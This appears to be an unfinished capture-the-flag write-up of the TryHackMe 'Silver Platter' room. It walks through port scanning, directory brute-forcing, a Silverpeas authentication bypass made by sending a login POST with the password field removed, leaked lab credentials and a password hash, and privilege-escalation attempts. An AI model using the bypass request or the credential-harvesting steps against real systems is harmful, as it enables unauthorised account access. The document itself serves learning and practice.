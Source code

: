 # Silver Platter

{% embed url="https://tryhackme.com/r/room/silverplatter" %}

1. ### Run `nmap` on the target IP address

```bash
$ nmap -sS -n -v -Pn [target_ip]
80 ...
8080 ...
22 ... 
```

The results showed that there were 3 open ports: `22`, `80` and `8080`.&#x20;

I started off by enumerating SSH at port 22 first, to find the version number and a potential CVE.

```bash
$ nmap -sV -n -Pn [target_ip]
```

After realizing that port 22 was least likely to be the vulnerable service (probably a rookie mistake for thinking that it was the vulnerable one in the first place :D), I went on to visit the website at port 80 instead

#### Information gathering

After running through the website with interception from Burp suite community, I viewed the sitemap generated (**Target** -> **Site map**), but didn't find any useful information.&#x20;

After reading through the text content present, a particular term: **silverpeas**, and the username **scr1ptkiddy** caught my eye. I decided to research about it.&#x20;

**Silverpeas** is a ...

#### Trying to attack the website

From the results obtained in `nmap`above, I tried to lookup for CVEs related to the particular version of **nginx** the web server is running: _**nginx 1.18.0**._&#x20;

...



### 3. Enumerating port 80 with common _silverpeas_ directories

From a quick on Google, I gathered various URL paths that are commonly used on a **silverpeas** application. Using the target IP and port 80 as the main host, I tried visiting the brief list of paths listed below:

1. `/portal`
2. `/portal/login`
3. `admin`
4. `/portal/admin`
5. `/silverpeas`
6. `/silverpeas/portal`
7. ...

All the paths returned status code _**404**_ (Not found).



### 4. Concentrating my efforts on port 8080 (running Silverpeas)

I decided to start trying to play around with port 8080 instead. I visited the website at port 8080 while behind a Burp suite community proxy. After running a quick `nmap` scan, the results shows that it is running a _**http-proxy**_.

```bash
$ nmap -sV -n -v -Pn -p8080 [target_ip]
```

I went on to try visiting the paths I tried on port 80 previously, and got a positive result for **/silverpeas** (redirection to a login page instead of status code 404).

I decided to run a quick directory gathering scan on the found URL path with `gobuster`. I utilized a few different word-lists found on Kali Linux, along with a few popular ones that is not part of the default installation:

a) /usr/share/wordlists/wfuzz/general/common.txt

b) /usr/share/wordlists/dirb/common.txt

c) DanielMiessler's SecLists ([https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists))

```bash
$ gobuster dir --url http://[target_ip]:8080/silverpeas/ -w [wordlist]
```

I found a few positive results ...

### 5. Continuing my adventure on port 8080!

**Searching for CVEs and exploits relating to JSP/2.3**

From the X-powered-by response headers, ...



I tried using a few Metasploit payloads:

a) `exploit/multi/http/struts_include_params`

b) `expoit/multi/http/struts2_content_type_ognl`



### 6. Further research on &#x53;_&#x69;lverpeas_

After much research, I came across a vulnerability listing regarding **silverpeas** authentication bypass:

{% embed url="https://github.com/advisories/GHSA-4w54-wwc9-x62c" %}

...

...

...



After playing around with the website at port 8080, I returned to Burp suite and looked through the gathered URLs. I found a `POST` request to a path with the _**AuthenticationServlet**_ word present, this prompted me to test out the vulnerability I have found previously.

I sent the request to the Burp suite _repeater_ and modified the request to remove the `Password` field:

```http
POST /silverpeas/AuthenticationServlet 
HTTP/1.1 
Host: 10.10.14.253:8080 

Login=scr1ptkiddy&DomainId=0
```

Notice that the `Login` field (presumably the username section) has the value **scr1ptkiddy**, which was found in step 2.

The server returned the following URL value in the `Location` header:

`http://10.10.14.253:8080/silverpeas/look/jsp/MainFrame.jsp`

I visited the URL, and was navigated to a dashboard.

...



```http
POST /silverpeas/AuthenticationServlet 
HTTP/1.1 
Host: 10.10.14.253:8080 

Login=Manager&DomainId=0
```



`http://10.10.14.253:8080/silverpeas/Main//look/jsp/MainFrame.jsp`

\
After looking around the website, ...

`tim`&#x20;

`cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol`



### 7. Privilege escalation

```bash
$ id 
... 4(adm)
```

{% embed url="https://wiki.debian.org/SystemGroups" %}

The _**adm**_ group permissions allows the current user to read the files in the `/var/log` file

Found in `/var/logsyslog:`

`Dec 13 15:45:57 silver-platter sudo: tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:6.3.1`



`linenum.sh` tool

```bash
$ ./linenum.sh
SGID
...

admin
...
```

1\.

User _**tim**_ is able to update `$SHELL`

`/snap/core20/1974/usr/lib/openssh/ssh-keysign`

`/snap/core20/2264/usr/lib/openssh/ssh-keysign`

are found to call a file with error: `error while loading shared libraries: libcrypto.so.1.1: cannot open shared object file: No such file or directory`

Adding the file to `/tmp` after appending`/tmp` to  `$SHELL` does not work, and the directory: `/snap/core20/[1974/2264]/usr/lib/openssh/`is not writable too



2\.

`/snap/core20/2264/usr/bin/sudo: error while loading shared libraries: libsudo_util.so.0: cannot open shared object file: No such file or directory`

### /usr/bin/mount with SUID

Run mountable share (NFS) on attacker hosting shellcode with SUID bit, mount the share from target and execute

\*\* Reverse of the NFS technique covered in linuxprivesc&#x20;

Tried to run NFS server on attacker: [https://linuxize.com/post/how-to-install-and-configure-an-nfs-server-on-ubuntu-20-04/](https://linuxize.com/post/how-to-install-and-configure-an-nfs-server-on-ubuntu-20-04/)

And mount from target (using all 3 diff binaries found from SUID bit find command, but all require root)



3. `installer/autoinstall-user-data`

Found hashed password: `$6$uJuA1kpnd4kTFniw$/402iWwKzcYD8AMHG6bY/PXwZWOkrrVmtoO7qQpfvVLh1CHmiKUodwMGP7/awDYtrzpDHV8cNbpS1HJ6VMakN.`

